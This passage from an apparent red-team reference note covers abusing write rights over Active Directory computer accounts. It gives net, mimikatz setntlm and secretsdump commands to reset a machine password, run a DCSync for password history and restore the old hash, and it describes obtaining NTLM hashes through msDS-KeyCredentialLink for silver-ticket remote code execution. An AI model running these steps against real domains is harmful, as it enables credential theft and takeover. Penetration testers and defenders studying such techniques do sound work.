 **Resetting a computer account's password using the technique below will
greatly impact the computer operability.** For instance, the computer will no
longer be able to process domain logons (error: `The trust relationship between
this workstation and the primary domain failed`). If conducted on a Domain
Controller machine account, the targeted Domain Controller would not be able to
authenticate to others Domain Controllers for replication operations.

This attack path can notably be leveraged on computer accounts that are granted
the rights to conduct replication operations through the `DRSUAPI`
(`Ds-Replication-Get-Changes` and / or `Ds-Replication-Get-Changes-All`
rights), such as Domain Controllers.

The `net` Windows built-in utility and `mimikatz`'s `lsadump::setntlm` function
can be used to reset a computer account's password. As the Domain Controller
that will process the modification cannot be specified using the `net` utility,
it is recommended to use `mimikatz`. Knowledge of the Domain Controller on
which the update took place is indeed necessary for further authentication
using the computer account without waiting for the replication of the new
password across the domain. Additionally, `mimikatz` allows the specification
of an `NTLM` hash, which can be used to eventually restore the original
computer account password.

```bash
net user <MACHINE_ACCOUNT> <NEW_PASSWORD> /domain

# The Domain Controller specified using <DOMAIN_CONTROLLER_FQDN> or <DOMAIN_CONTROLLER_IP>  must be consistent across commands.
mimikatz # lsadump::setntlm /server:<DOMAIN_CONTROLLER_FQDN> /user:<MACHINE_ACCOUNT> /password:<NEW_PASSWORD>

# Conducts DRSUAPI replication operations (DCSync attack) to retrieve the history of the targeted computer account passwords (as well as privileged domain accounts if necessary).
secretsdump.exe -history -dc-ip <DOMAIN_CONTROLLER_IP> [-just-dc-user <MACHINE_ACCOUNT>] '<DOMAIN>/<MACHINE_ACCOUNT>:<NEW_PASSWORD>@<DOMAIN>'
# Restores the previous computer account password using its NTLM hash.
lsadump::setntlm /server:<DOMAIN_CONTROLLER_FQDN> /user:<MACHINE_ACCOUNT> /ntlm:<ORIGINAL_NTLM>
```

###### Ability to write the msDS-KeyCredentialLink attribute

The ability to write a computer object's `msDS-KeyCredentialLink` attribute
can lead to the retrieval of the computer account's `NTLM` hash. Refer to the
`User - GenericWrite / Write-Property to all attributes or to the
msDS-KeyCredentialLink attribute` section of the present note for more
information and tooling to modify a computer object's `msDS-KeyCredentialLink`
attribute and retrieve its `NTLM` hash.

Using the retrieved computer account's `NTLM` hash:

  - Authenticated Active Directory requests can be made under the identity of
    the computer account.

  - Remote code execution can be achieved on the computer using
    `silver tickets`. A `service ticket (ST)` to the host's services
    (`HOST/<MACHINE_HOSTNAME>` for instance) can indeed be forged using the
    `NTLM` hash (which correspond to the Kerberos `RC4` key) of the computer
    account. Any privileged principals can be impersonated in the forged `ST`
    in order to remotely execute code on the targeted host. Refer to the
    `[ActiveDirectory] Exploitation - Kerberos Silver Tickets` note for more
    information on how to craft and use `silver tickets` for remote code
    execution.
